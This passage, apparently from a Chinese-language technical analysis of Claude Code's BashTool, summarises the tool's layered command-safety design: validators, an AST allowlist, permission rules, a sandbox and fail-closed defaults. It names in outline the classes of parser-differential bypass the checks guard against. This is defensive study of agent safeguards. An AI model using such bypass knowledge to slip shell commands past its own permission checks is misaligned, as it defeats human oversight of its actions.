3. **结构化安全规则**：当前的安全检查是过程式的——23 个验证器顺序执行。可以考虑将规则声明式化（类似 `readOnlyValidation.ts` 的 `CommandConfig`），使安全规则更易审计和扩展。

4. **性能预算**：引入明确的安全检查性能预算（如 CC-643 后的子命令上限），而不是事后补丁。可以参考 `bashParser.ts` 的 `PARSE_TIMEOUT_MS`（50ms）和 `MAX_NODES`（50,000）设计。

### 10.7.3 对行业的启示

1. **"允许 AI 执行命令"是一个被严重低估的工程挑战**。BashTool 的 31,680 行代码证明，让 AI 安全地执行 Shell 命令不是"加个确认弹窗"那么简单。任何试图构建 AI Agent 的团队都应该认真研究 BashTool 的安全架构。

2. **解析器差异是安全的阿喀琉斯之踵**。`ast.ts` 的预检查（控制字符、Unicode 空白、反斜杠空格、Zsh 展开）展示了一个深刻的教训：安全分析器和被分析的 Shell 对同一输入的理解差异，恰好是攻击者可以利用的。

3. **安全注释是活文档**。bashPermissions.ts 中 26 处 `SECURITY:` 注释不是装饰——它们记录了具体的攻击向量、修复原因和设计约束。这种实践值得所有安全敏感的代码库效仿。

---

## 10.8 小结

1. **BashTool 是 Claude Code 中最复杂的单个工具**，41 个文件、~31,680 行代码，安全逻辑的复杂度远超大多数独立安全产品。

2. **FAIL-CLOSED 是核心设计原则**。AST 白名单（未知结构返回 too-complex）、deny 优先于 allow、不确定时默认询问——每一层都倾向保守。

3. **安全是经济博弈，不是绝对防御**。23 种检查 + AST 分析 + 权限规则 + 沙箱，目标是让攻击成本高到不划算，而不是让攻击变得不可能。

4. **工程细节决定安全成败**。HackerOne #3543050（两阶段剥离）、CC-643（子命令数量上限）、Bun DCE 复杂度预算——每一个"小"修复背后都是一个真实的安全或可靠性事件。

5. **tree-sitter AST 路径是未来方向**。当前的 shadow 模式正在用生产流量验证正确性，一旦启用将大幅提升安全分析的精确度，同时消除 legacy 路径的维护负担。
